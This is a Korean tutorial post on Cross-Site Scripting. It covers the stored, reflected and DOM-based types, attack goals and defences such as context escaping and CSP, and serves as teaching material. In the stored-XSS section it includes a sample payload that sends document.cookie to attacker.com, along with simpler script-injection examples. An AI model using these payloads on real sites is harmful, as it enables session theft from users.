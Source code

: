 ```yaml
---
title: "[웹 해킹] 3.Cross-Site Scripting (XSS)"
date: 2025-06-20 12:05 +0900
categories: ["Hacking", "XSS"]
tags: [web, Backend]
mermaid: true
---
```

## 1. 개요

Cross-Site Scripting (XSS)은 웹 애플리케이션에서 사용자로부터 입력받은 데이터를 적절히 검증 또는 이스케이프하지 않고 HTML 문서에 포함시킬 경우, 악의적인 스크립트가 사용자 브라우저에서 실행되는 취약점이다.

공격자는 이를 통해 다음과 같은 행위를 수행할 수 있다:

* 사용자의 인증 세션 탈취 (쿠키 가로채기)
* 악성 스크립트를 통한 권한 상승
* UI 조작 및 사용자 속이기 (Clickjacking, 피싱)
* 브라우저 기반 백도어 설치
* 내부망 스캐닝 및 관리자 페이지 공격

XSS는 웹 클라이언트 환경을 공격 대상으로 하며, 주로 JavaScript가 실행 수단으로 사용된다.

---

## 2. 공격 발생 조건

* 사용자 입력값이 **검증 없이** HTML, JavaScript, URL 등 문맥에 삽입됨
* 응답 콘텐츠가 클라이언트에서 렌더링되며, **스크립트 실행이 허용**됨
* 브라우저가 입력값을 **스크립트로 해석**할 수 있는 위치에 출력됨

---

## 3. XSS 유형

### 3.1 저장형 (Stored XSS)

* 공격 페이로드가 서버에 **영구 저장**됨 (예: DB, 로그, 파일)
* 이후 정상 사용자 요청 시 자동으로 응답 콘텐츠에 포함됨
* 게시판, 댓글, 프로필 등에서 자주 발생

```html
<script>document.location='http://attacker.com/steal?c='+document.cookie</script>
```

### 3.2 반사형 (Reflected XSS)

* 공격자가 만든 URL이나 입력값이 **즉시 응답에 반영**되어 실행됨
* 서버는 일시적으로 스크립트를 되돌려줄 뿐, 저장하지 않음
* 검색, 로그인 실패 메시지 등에서 발생

```
http://target.com/search?q=<script>...</script>
```

### 3.3 DOM-Based XSS

* 클라이언트의 JavaScript가 DOM을 조작하는 과정에서 입력값을 직접 삽입
* 서버는 개입하지 않음 (클라이언트 내에서 발생)
* `location`, `document.referrer`, `innerHTML`, `eval()` 등이 주요 벡터

```javascript
let input = location.hash;
document.body.innerHTML = input;  // 공격자: #<script>alert(1)</script>
```

---

## 4. 공격 기법 및 시나리오

| 목적         | 설명                            |
| ---------- | ----------------------------- |
| 세션 탈취      | `document.cookie`를 공격자 서버로 전송 |
| 사용자 클릭 유도  | 악성 버튼 삽입, 피싱 유도               |
| 관리자 페이지 접근 | 관리자 계정에서 스크립트 실행 → 명령 전달      |
| 내부망 공격     | 스크립트를 이용한 HTTP 요청 → 내부 자산 탐색  |

---

## 5. 방어 기법

### 5.1 입력값 검증 및 정제

* 예상된 형식(숫자, 이메일 등) 이외의 입력 차단
* 정규표현식 기반 화이트리스트 적용

### 5.2 출력 컨텍스트별 이스케이프

| 위치         | 적용 방식                            |
| ---------- | -------------------------------- |
| HTML       | `&`, `<`, `>`, `"` 등 HTML 엔티티 처리 |
| JavaScript | `\`, `'`, `"` 등 JS 이스케이프         |
| URL        | `encodeURIComponent()` 사용        |
| Attribute  | 쌍따옴표 포함한 값에 대한 이스케이프             |

### 5.3 HTTP 헤더 보안 설정

* `Content-Security-Policy (CSP)` : 인라인 스크립트 차단, 외부 도메인 제한
* `X-Content-Type-Options: nosniff`
* `X-XSS-Protection` (일부 브라우저에서 지원 중단됨)

### 5.4 보안 프레임워크 활용

* React, Angular, Vue 등은 기본적으로 자동 이스케이프 처리
* 서버 템플릿(Jinja2, Thymeleaf 등)도 escape 필터 존재

---

## 6. 결론

XSS는 단순한 취약점처럼 보이지만, 공격자가 사용자 브라우저 내에서 완전한 제어권을 획득할 수 있는 **치명적인 위협**이다. 클라이언트와 서버 모두에서 입력값 검증과 출력 시 컨텍스트 기반 이스케이프를 철저히 적용해야 하며, CSP 등의 브라우저 보안 메커니즘을 통해 2차 방어선도 구축해야 한다.

---

이 버전으로 교체하거나 보완을 원하시면 알려주세요.
